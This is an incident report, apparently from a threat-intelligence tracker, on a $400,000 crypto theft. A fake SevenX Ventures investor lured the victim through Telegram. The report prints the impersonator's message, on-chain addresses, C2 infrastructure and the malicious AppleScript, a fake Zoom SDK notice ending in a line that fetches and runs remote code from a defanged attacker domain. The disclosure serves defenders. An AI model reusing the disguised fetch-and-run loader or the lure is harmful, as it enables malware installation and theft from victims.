


# Theft from Individual C4

Date: June 28th, 2024

Time:: 06:19

Amount Stolen: $400,000

Tags: 🔑 SquidSquad

---

## Details

Contacted by Telegram account impersonating VC.

jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 


## Onchain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1 - Theft

- 0x47aac2e0d93baf0e5b0cd66032041f5f02af7945 - Theft/Consolidation (Moves July 18, 2023)
  
- 0x7527690cdc36e3180197d9b65d6bb86101b27718 - eXch Depo
- 0x8d04169c64a4f083154cfe1e7c4f84073489f584 - eXch Depo
- 0x7ea5c7e866bbee6535b33c30ba4b5eab3506cfdf - eXch Depo
- 0xc14857054571ca848d30b3be832434a31cba267c - eXch Depo
- 0x25796e53bd64c4a922d9b004d9806be211d01ed1 - eXch Depo
- 0x1a4885b76a88fc8c7ad667944129fccacefd2ed6 - eXch Depo
- 0x7d577a5ca50ecf947900eab06943da4d003e19a1 - eXch Depo
- 0x9258d93045a2974874178001adc1f2b9b6a6e975 - eXch Depo


## Timeline

- 2024-Jun-28 06:19 - Theft
- 2024-Jul-18 00:38 - Consolidation
- 2024-Jul-23 01:16 - Laundry 
- 2024-Aug-26 00:50 - Laundry 


## Connections

- C7 Theft


## URLs

- https://twitter.com/ValidinLLC/status/1788134423273034033


## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon


## Malicious Script

############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc


## C2s

- support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.


## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online







